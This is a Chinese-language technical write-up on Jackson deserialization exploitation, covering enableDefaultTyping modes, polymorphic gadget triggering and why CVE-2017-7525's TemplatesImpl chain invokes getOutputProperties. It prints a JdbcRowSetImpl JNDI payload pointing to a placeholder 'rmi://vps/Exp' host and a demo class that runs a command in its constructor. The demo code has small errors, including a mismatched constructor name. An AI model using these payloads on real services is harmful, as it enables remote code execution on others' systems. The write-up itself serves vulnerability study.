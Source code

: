 # Jackson的利用触发及小细节

不会很详细，简单分析一些重要的

## 漏洞原理

其实跟fastjson反序列化漏洞原因类似，漏洞触发方法主要分为两种：

1、目标类的构造函数、set系列函数含有恶意操作，并且参数可控制；

2、目标类的子类、活着目标类的属性的子类的构造函数、set系列函数含有恶意操作，并且参数可控制，如目标类有个属性类型为Object，那么服务端中任意其他类都能为我所用。

### enableDefaultTyping

enableDefaultTyping可以设置如下参数，适用范围从上至下逐渐变大。

| enableDefaultTyping类型 | 说明                                                |
| ----------------------- | --------------------------------------------------- |
| JAVA_LANG_OBJECT        | 属性的类型为Object                                  |
| OBJECT_AND_NON_CONCRETE | 属性的类型为Object、Interface、AbstractClass        |
| NON_CONCRETE_AND_ARRAYS | 属性的类型为Object、Interface、AbstractClass、Array |
| NON_FINAL               | 所有除了声明为final之外的属性                       |

​		

### 第一种

需要开启DefaultTyping，其余大致利用思路和fastjson差不多

```java
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
```

列举一个利用payload大概格式如此

```java
String json = "[\"com.sun.rowset.JdbcRowSetImpl\", {\"dataSourceName\":\"rmi://vps/Exp\", \"autoCommit\":true}]";
```



### 第二种

简单举个例子来理解下，新增一个Test类



```java

import java.io.IOException;

public class Test {
    public String testt = "test";
    public Monitor() throws IOException {
        Runtime.getRuntime().exec("opened -na Calculator");
    }
}

```

简单写个Student类，注意下面有个被Object修饰的

```java
public class Student {
    public String name;
    public String sex;
    public Object myObject;

    public Student(){
        System.out.println("构造函数");
    }
    public String getName(){
        System.out.println("getName");
        return name;
    }
    public void setName(String name){
        System.out.println("setName");
        this.name = name;
    }
    public String getSex(){
        System.out.println("getSex");
        return sex;
    }
    public void setSex(String sex){
        System.out.println("setSex");
        this.sex = sex;
    }

    public Object getMyObject() {
        System.out.println("getMyObject");
        return myObject;
    }
    public void setMyObject(Object myObject) {
        System.out.println("setMyObject");
        this.myObject = myObject;
    }
    @Override
    public String toString() {
        return String.format("Person.name=%s, Person.sex=%s", name, sex);
    }
}
```

利用

```java
ObjectMapper mapper = new ObjectMapper();
      mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT); 
        Student s2 = mapper.readValue("{\"name\":\"5wimming\",\"sex\":\"boy\",\"myObject\":[\"jacksonn.Test\",{\"testt\":\"test\"}]}", Student.class);
```

如果没有开`JAVA_LANG_OBJECT`，Test类在做反序列化的时候，只是做了赋值，并没有进行实例化，因此没有调用Test的构造函数；开启了`JAVA_LANG_OBJECT`后，反序列化Student时候也会发序列化Test，所以调用了Monitor的构造函数，简单测试了下除了设置`NON_FINAL`以外都可以




## 如何在反序列化的时候触发get方法

其实也就是CVE-2017-7525（基于TemplatesImpl利用链）为什么会触发`getOutputproperties`，这点网上基本上没说，这里简单放个图就懂了



在`com.fasterxml.jackson.databind.deser.BeanDeserializer#vanillaDeserialize`中，会根据属性名从this._beanProperties寻找对应的调用方法

![](img/1.png)

这里长话短说，在`com.fasterxml.jackson.databind.deser.BeanDeserializerFactory#addBeanProps`当中，可以很清楚的看出大概逻辑

1. 首先看看有无set方法
2. 如果没有set方法则看看有无这个字段，后面通过反射复制
3. 如果没有set方法以及字段，则会去寻找get方法（前提返回值是Collection、Map及其子类）

![](img/2.png)

这里很清楚就能知道为何能触发`getOutputproperties`，没有`setOutputproperties`,也没有`outputproperties`这个字段，并且`getOutputproperties`返回是`Properties(继承Map类)`



## 参考文章

其他部分可以看看参考文章即可，当然参考文章当中没有提及为什么能过触发get方法，这里帮忙填个坑了

http://www.lmxspace.com/2019/07/30/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B1%87%E6%80%BB
